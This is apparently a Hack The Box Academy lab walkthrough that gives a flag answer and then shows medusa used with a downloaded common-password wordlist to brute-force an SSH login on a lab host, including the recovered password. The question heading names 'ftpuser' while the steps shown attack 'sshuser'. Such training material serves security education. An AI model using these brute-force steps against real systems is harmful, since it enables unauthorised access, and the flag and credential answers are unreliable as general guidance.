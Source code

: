 Answer: `HTB{W3b_L0gin_Brut3F0rc3}`

# Web Services

## Question 1

### "What was the password for the ftpuser?"

After spawning the target, students will install `medusa` using the apt repository:

Code: shell

```shell
sudo apt install medusa
```

```
┌─[eu-academy-5]─[10.10.14.51]─[htb-ac-8414@htb-sbvtgbegel]─[~]
└──╼ [★]$ sudo apt install medusa

Reading package lists... Done
Building dependency tree... Done
Reading state information... Done

<SNIP>

Launchers are updated
```

Subsequently, students will download the `2023-200_most_used_passwords.txt` wordlist:

Code: shell

```shell
wget -q https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/2023-200_most_used_passwords.txt
```

```
┌─[eu-academy-5]─[10.10.14.51]─[htb-ac-8414@htb-sbvtgbegel]─[~]
└──╼ [★]$ wget -q https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/2023-200_most_used_passwords.txt
```

Students will use `medusa` to perform an SSH brute-force against the `sshuser` from the section using the downloaded wordlist:

Code: shell

```shell
medusa -h STMIP -n STMPO -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
```

```
┌─[eu-academy-5]─[10.10.14.51]─[htb-ac-8414@htb-sbvtgbegel]─[~]
└──╼ [★]$ medusa -h 83.136.255.143 -n 34377 -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3

Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

<SNIP>

ACCOUNT CHECK: [ssh] Host: 83.136.255.143 (1 of 1, 0 complete) User: sshuser (1 of 1, 0 complete) Password: 1q2w3e4r5t (46 of 200 complete)
ACCOUNT FOUND: [ssh] Host: 83.136.255.143 User: sshuser Password: 1q2w3e4r5t [SUCCESS]

<SNIP>
```
